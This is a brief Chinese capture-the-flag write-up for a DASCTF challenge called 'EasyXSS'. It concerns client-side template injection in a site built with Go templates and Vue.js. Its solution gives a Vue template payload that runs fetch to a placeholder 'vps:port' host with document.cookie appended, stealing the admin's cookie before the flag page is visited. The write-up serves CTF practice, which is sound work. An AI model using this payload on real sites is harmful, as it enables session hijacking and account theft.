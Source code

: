 # DASCTF-CSTI
考点为 CSTI 获取 token (干掉 html 标签 &lt; 头 和 XSS 可能的标签)

## 1. 题目描述

题目: EasyXSS

题干: 

社团新人在学习 GIN 的时候一起学习了 go-template 和 vue.js, 可是他似乎混淆了一些什么

他写出了这样的一个网站, 你能找出其中的漏洞吗？

## 2.解法

> PS 可以放出源码 也可以不放出源码
> 不放出源码可以说明 flag 在 /admin/flag 下

payload: 
```js
{{this.constructor.constructor('fetch("http://vps:port/"+(document.cookie))')()}}
```

然后访问 `/admin/flag` 即可

